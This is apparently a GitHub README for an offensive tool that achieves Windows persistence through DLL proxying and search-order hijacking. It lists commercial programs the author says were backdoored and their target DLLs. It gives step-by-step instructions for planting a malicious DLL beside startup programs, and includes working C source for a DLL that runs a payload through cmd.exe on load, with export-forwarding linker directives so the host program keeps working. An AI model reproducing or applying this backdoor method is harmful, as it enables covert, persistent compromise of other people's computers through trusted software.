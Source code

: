 # DLL Proxying
This README file will cover two techniques to perform DLL Proxying.

[This article](https://www.ired.team/offensive-security/persistence/dll-proxying-for-persistence) gives more details about the concept of DLL Proxying.

## List of successfully backdoored programs (so far) :

Program Name | DLL
-------------| ----
Lightshot | DXGIODScreenshot.dll
Acrobat Reader | BIB.dll
Hamachi Service | LMIGuardianDll.dll
ManyCam | P7x32.dll
Citrix | ctxmui.dll

## DLL Proxying & Persistence concept
The goal is to use programs that automatically run on startup.

There are two techniques, generally if the first one fails you will want to try the other one.

The two common steps for both techniques are :
1. Find the program that fits your needs for persistence
2. List DLLs used by this program (with Procmon)

### **Technique 1**

Technique 1 is based on the idea that the DLL exists, and is loaded by the program. 

In Procmon, you can check this with the **Result** column being set to **SUCCESS**.

3. Once you picked your working DLL, use a tool such as DLLExportViewer to export the legit DLL's functions 

(or use my script to automate this step and step 4)

4. Write the pragma comment linkers from the exported functions for you to implement into your malicious DLL

It should look like :

```C
#pragma comment(linker,"/export:FUNCTION_NAME=DLLFileName_orig.FUNCTION_NAME,@ORDINAL")
```

5. Create your DLL with the code that you want to execute, here's an example :

```C
#pragma once

// Add the generated comments here
// # pragma comment(linker,"/export:FUNCTION_NAME=DLLFileName_orig.FUNCTION_NAME,@ORDINAL")
// .....
#include <windows.h>

DWORD WINAPI payload() {
	STARTUPINFOA info = { 0 };

	PROCESS_INFORMATION processInfo = { 0 };

	LPSTR arguments = (char*)" /c notepad"; // This is not necessary. It's just an argument example for you to use with your own commands

	if (CreateProcessA("C:\\Windows\\System32\\cmd.exe", arguments, NULL, NULL, TRUE, 0, NULL, NULL, &info, &processInfo)) {
		WaitForSingleObject(processInfo.hProcess, INFINITE);
		CloseHandle(processInfo.hProcess);
		CloseHandle(processInfo.hThread);
	}
	return 0;
}

BOOL WINAPI DllMain(HINSTANCE hinstDLL, DWORD fdwReason, LPVOID lpReserved) {
	switch (fdwReason) {
	case DLL_PROCESS_ATTACH:
		payload();
		break;
	case DLL_THREAD_ATTACH:
		break;
	case DLL_THREAD_DETACH:
		break;
	case DLL_PROCESS_DETACH:
		break;
	}
	return TRUE;
}
```

6. Name your DLL with the original legitimate DLL name (without the \_orig), and place it in the same folder.
7. Start the program and see if it worked.

### **Technique 2**

Technique 2 is based on the idea that the DLL doesn't exist where the program calls it. 

In Procmon, you can check this with the **Result** column being set to **NAME NOT FOUND**.

Using Procmon, you should also check if the **Path** column matches with the location of the installation folder of the program

3. Look for the DLL inside the System32 folder
4. Generate the pragma comment linkers from that DLL, but this time for the function name, specify entire path like such :

```C
#pragma comment(linker,"/export:FUNCTION_NAME=C:\\Windows\\System32\\FILENAME.dll.FUNCTION_NAME,@ORDINAL")
```
In my script you can use the `--system32` option to do it automatically.

6. Add the generated comments to your malicious DLL and build it
7. Place the DLL inside within the folder specified by the "*Path*" column on Procmon (where the DLL wasn't found)
8. Be sure names match (case sensitive)
9. Start the program and see if it worked

## Consequences

Now everytime the program is going to run, assuming you have chosen a correct DLL and that your own DLL is working, it is going to call your malicious DLL, and will continue to owrk since your DLL exports all the same functions that the legit DLL exports.

Since it is a program that is ran on startup, your DLL will be called on startup and persistence is achieved.


### Troubleshoot
There are two main problems that can occur with this technique:
1. The program didn't start properly or crashed
2. The program started but nothing happened

For both case, it means that you picked the wrong DLL, and that you have to try with another one.
